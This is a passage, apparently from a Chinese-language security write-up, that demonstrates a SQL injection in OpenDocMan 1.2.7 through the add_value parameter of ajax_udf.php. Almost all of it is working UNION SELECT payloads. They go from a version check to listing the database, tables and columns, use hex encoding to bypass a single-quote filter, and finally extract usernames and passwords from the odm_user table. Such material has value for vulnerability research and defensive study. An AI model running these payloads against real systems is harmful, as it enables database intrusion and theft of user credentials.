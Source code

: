 ```plain
searchsploit OpenDocMan 1.2.7

//payload
http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9
```

[![](assets/1704158282-23ff91f5b4858131e3d5c134dc03a3f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010436-2e499c30-a5a3-1.png)

<2> 住的注意的是，后端做了过滤单引号，可以使用十六进制编码表示表名

```plain
<1> 库名
?q=1&add_value=odm_user%20UNION%20SELECT%201,database(),3,4,5,6,7,8,9

<2> 表名
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()

<3> 列名（后端做了过滤，可以用 16 进制编码表示表名）
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7,8,9 from information_schema.columns where table_name=0x6f646d5f75736572 and table_schema=database()

<4> 数据
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(concat(username,0x5e,password)),3,4,5,6,7,8,9 from odm_user
```
